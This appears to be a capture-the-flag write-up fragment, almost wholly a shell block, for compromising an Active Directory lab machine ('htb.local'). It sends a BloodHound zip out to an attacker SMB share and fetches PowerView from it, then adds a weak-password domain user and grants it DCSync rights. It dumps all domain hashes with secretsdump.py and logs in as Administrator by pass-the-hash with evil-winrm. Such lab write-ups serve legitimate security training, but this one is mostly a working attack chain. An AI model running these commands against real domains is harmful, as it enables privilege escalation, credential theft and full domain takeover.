 ```shell

#exfiltrate .zip file to attacker machine
move 20221222214109_BloodHound.zip \\10.10.14.3\share\20221222214109_BloodHound.zip

#feed this .zip into bloodhound gui

#check privesc route

#add new user, as we are part of Account Operators
net user htb-sv Password123 /add /domain

net group "Exchange Windows Permissions"
#no members

#add new user as member to the group
net group "Exchange Windows Permissions" /add htb-sv

#get powerview from attacker
copy \\10.10.14.3\share\PowerView.ps1 C:\Users\svc-alfresco\Documents\PowerView.ps1

#follow steps from abuse info section in BloodHound

$SecPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force
#create a pscredential object
$Cred = New-Object System.Management.Automation.PSCredential('HTB\htb-sv', $SecPassword)

#import powerview module
Import-Module .\PowerView.ps1

Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
#this does not work
#we have to be specific

Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity htb-sv -TargetIdentity htb.local -Rights DCSync

#on attacker machine
#using secretsdump.py to dump hashes
secretsdump.py htb.local/htb-sv:Password123@10.10.10.161
#this does not work

#running the Add-DomainObjectAcl command again in different format
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity htb-sv -TargetIdentity "DC=htb,DC=local" -Rights DCSync

#in attacker machine
secretsdump.py htb.local/htb-sv:Password123@10.10.10.161
#this works, and we get hashes

evil-winrm -u Administrator -H <admin-ntlm-hash> -i 10.10.10.161
#we get login
#get root flag
```
